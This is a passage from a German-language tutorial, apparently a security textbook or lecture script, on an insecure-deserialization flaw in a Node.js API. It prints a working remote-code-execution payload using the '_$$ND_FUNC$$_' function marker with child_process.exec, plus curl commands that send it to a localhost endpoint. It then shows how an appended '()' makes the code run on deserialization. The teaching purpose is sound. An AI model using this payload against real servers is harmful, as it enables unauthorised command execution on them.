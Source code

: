 Wird diese Klasse serialisiert, wird folgender serialisierter Text erstellt:

\begin{verbatim}
{"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}
\end{verbatim}

Dieser inkludiert das Ausführen eines Befehls (,,ls /bin'') in der Hoffnung, dass beim deserialisieren dieser Befehl am Server aufgerufen werden würde. Dieses Kommando wird nun ebenso über curl an den Server übertragen:

\begin{verbatim}
# Die Zeichen \ und $ mussten teilweise maskiert werden
$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}\"}" http://localhost:3000/api/deserialize

# Ausgabe am Server:

{ todo: [Function (anonymous)] }
\end{verbatim}

Das Objekt wurde deserialisiert (inkl. der Methode mit dem Schadcode), würde diese Methode während der Request-Abarbeitung aufgerufen werden, würde unser Kommando am Server exekutiert werden. Wir können diesen Exploit noch verbessern indem wir durch Anhängen von ,,()'' nicht nur eine Funktion definieren, sondern diese auch direkt aufrufen. Dies würde folgendem serialiserten String bzw. folgendem Curl-Aufruf entsprechen:

\begin{verbatim}
$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}()\"}" http://localhost:3000/api/deserialize
\end{verbatim}

Die Ausgabe am Server zeigt nun, dass das Kommando ausgeführt, und der Inhalt von \textit{/bin} ausgegeben wurde:

